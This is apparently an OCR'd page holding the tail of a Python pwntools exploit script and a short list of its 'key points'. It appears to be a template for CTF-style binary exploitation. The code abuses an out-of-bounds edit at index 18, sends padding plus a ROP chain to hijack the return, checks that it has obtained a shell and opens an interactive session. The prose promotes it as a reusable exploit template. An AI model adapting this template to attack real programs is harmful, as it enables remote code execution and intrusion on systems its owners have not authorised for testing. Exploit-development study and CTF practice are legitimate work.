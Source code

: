 ```python
log.info("=" * 60)

# Out-of-bounds write
io.sendlineafter(b'choice: ', b'3')  # Edit
io.sendlineafter(b'index: ', b'18')  # OOB!

# Fill non-target fields
for _ in range(4):
    io.sendlineafter(b'): ', b'1')

io.sendlineafter(b'URL): ', b'http://pwned.com')

# Send payload
payload = b'A' * PADDING + rop.chain()
log.info(f"Payload length: {len(payload)} bytes")
io.sendlineafter(b'title): ', payload)

# Trigger return
io.sendlineafter(b'choice: ', b'5')  # Exit

# ============================================
# VERIFY SHELL
# ============================================
log.success("=" * 60)
log.success("Exploit complete! Testing shell...")
log.success("=" * 60)

import time
time.sleep(0.5)

try:
    io.sendline(b'echo SHELL_TEST')
    response = io.recvline(timeout=2)
    if b'SHELL_TEST' in response:
        log.success("Shell confirmed working!")
    else:
        log.warning("Shell verification ambiguous")
except:
    log.warning("Shell verification failed - may still work")

io.interactive()
```

### Key Points in This Template:

1. **Verified constants section** - Makes it clear what needs GDB verification
2. **Stage-by-stage logging** - Easy to see which stage fails
3. **Validation checks** - Catches wrong offsets/leaks early
4. **Checkpoint testing** - Can test stages independently
5. **Clear error messages** - Tells user what to fix
6. **Shell verification** - Confirms exploit worked

---